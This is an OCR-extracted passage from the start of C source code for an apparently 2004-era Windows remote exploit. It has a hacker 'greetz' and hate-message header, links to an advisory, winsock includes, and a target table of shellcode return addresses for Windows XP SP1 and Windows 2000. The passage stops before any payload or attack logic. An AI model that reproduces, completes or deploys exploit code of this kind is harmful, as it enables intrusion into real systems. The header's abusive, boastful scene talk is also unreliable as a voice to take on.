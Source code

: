 
       Greetz go out to:
       Kajun  { Verry suportive guy }
       NrAziz { 0wns pakistan hax0r scene ! beware always say mr NrAziz }
       sloth  { good guy }
       Mercy  { Hope to see u soon }
       Netric security {www.netric.org/.de }
       [+] All the hax0rs i forgot.

       Hate Messages:
       Ziphie { U didnt get mine bitch }

      OOh and Li0n7 voila fr {
      you're doing it all wrong, your exploit doesn't work!
      http://www.securityfocus.com/archive/1/354769/2004-02-15/2004-02-21/0
      k/j man, keep on doing the good stuff and next time add some more stack adresses so
      it would work on other os`s...

      }



    Advisory at: http://www.rosiello.org/en/read_bugs.php?15

    */


    #include <stdio.h>
    #include <winsock2.h>
    #include <errno.h>
    #include <windows.h>

    // Darn fucking 1337 macro shit
    #define ISIP(m) (!(inet_addr(m) ==-1))

    #define offset 1024 //1024





    struct remote_targets {
      char *os;
      unsigned long sh_addr;
    } target [] ={
    /* Option`s for your eyes only :D*/
        "Demo                        ",
         0xbadc0ded,


        "Windows XP Home Edtion SP1. ",
         0x00D2FDDA,

        "Windows XP Pro Edtion SP1.  ",
         0x00edfddc,


        "Win2k Pro Edtion.          ",
         0x00bbfddc,

     };
